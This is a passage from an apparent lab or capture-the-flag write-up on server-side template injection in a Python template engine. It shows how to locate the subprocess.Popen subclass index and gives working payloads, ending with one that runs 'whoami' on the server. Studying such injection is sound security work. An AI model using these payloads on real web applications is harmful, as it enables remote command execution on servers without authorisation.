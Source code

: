 ```
    
echo "Adding new line before each '&lt;'. $step_2" > /dev/null 2>&1
    
echo "Only adding lines that include 'class &#39;' to a file. $step_3" > /dev/null 2>&1
    
echo -e "Showing which line contains 'subprocess.Popen'. \nThe result is line: $step_4" 
```

The result equals **312**. Let's build our latest payload using that index:

```
{{2022.__class__.__mro__[1].__subclasses__()[312]}}
```

And here is the result:

![img-16](./img/img-16.png)

Index **312** is indeed `subprocess.Popen`.

> **Do not** skip this step because your index might be different.

8. Now, that we have the right index, `subprocess.Popen` allows us to execute commands. The following payload is an example:

```
{{2022.__class__.__mro__[1].__subclasses__()[312]('whoami', shell=True, stdout=-1).communicate()}}
```
